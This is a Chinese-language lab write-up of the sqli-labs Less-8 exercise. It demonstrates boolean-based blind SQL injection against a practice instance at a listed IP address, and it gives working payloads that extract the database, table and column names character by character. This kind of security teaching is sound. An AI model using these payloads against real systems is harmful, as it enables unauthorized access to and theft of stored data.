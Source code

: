 **Blind - Boolian Based - Single Quotes (布尔型单引号GET盲注)**

http://119.45.55.187/Less-8/?id=1  //正常

http://119.45.55.187/Less-8/?id=1' //错误

http://119.45.55.187/Less-8/?id=1'--+ //正常

方法一

**二分法-爆库**

?id=1' and left((select database()),1)<'m'--+无回显说明错误
![image-20201110164402825](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110164402825.png)

?id=1' and left((select database()),1)<'t'--+ 回显 说明正确
![image-20201110164456561](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110164456561.png)

使用类似方法，逐位查找库名的每一位，得到库名为`security`

**爆表**

利用类似上面的二分法，不断改变`limit`字段的参数（前一个参数表示从第几位开始，后一个表示共返回几个记录）及字符串截取函数`left`的参数（其表示截取从左边计算共几位）

(使用二分法)依次判断第一位

```
?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' *--+*
```

直到爆出完整表名

```
?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),7)='referers' --+
```

**爆列名(以`user`表为例)**

爆破第二个列名时

> ?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 1,1),5)='first' *--+*

有回显说明正确

在判断第一个的第六位，只在判断`>'z'`时有回显

> ?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 1,1),6)>'firstz' --+

**（MySQL对大小写不敏感）故**

**第六个字符应该是符号**

> ?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 1,1),6)='first_' --+

有回显

![image-20201008193653016](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/20201008201803.png)
